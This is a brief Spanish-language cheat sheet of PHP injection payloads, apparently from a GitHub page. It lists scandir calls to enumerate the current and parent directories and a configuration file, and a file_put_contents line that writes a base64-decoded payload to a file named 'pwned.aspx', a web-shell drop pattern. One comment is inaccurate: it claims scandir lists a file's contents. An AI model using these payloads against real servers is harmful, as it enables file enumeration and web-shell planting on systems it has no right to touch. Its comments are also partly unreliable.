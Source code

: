 
**PHP INJECTION LIST CONTENT**
```php
<?php print_r(scandir(".")); ?> # LISTAR CONTENIDO DEL DIRECTORIO ACTUAL.
<?php print_r(scandir("../")); ?> # LISTAR CONTENIDO DEL DIRECTORIO ANTERIOR.
<?php print_r(scandir("../FILE.conf")); ?> # LISTAR EL CONTENIDO DE UN ARCHIVO.
```

**CARGAR CONTENIDO URLENCODEADO POR PHP**
```php
<?php file_put_contents("pwned.aspx", base64_decode("")); ?>
```
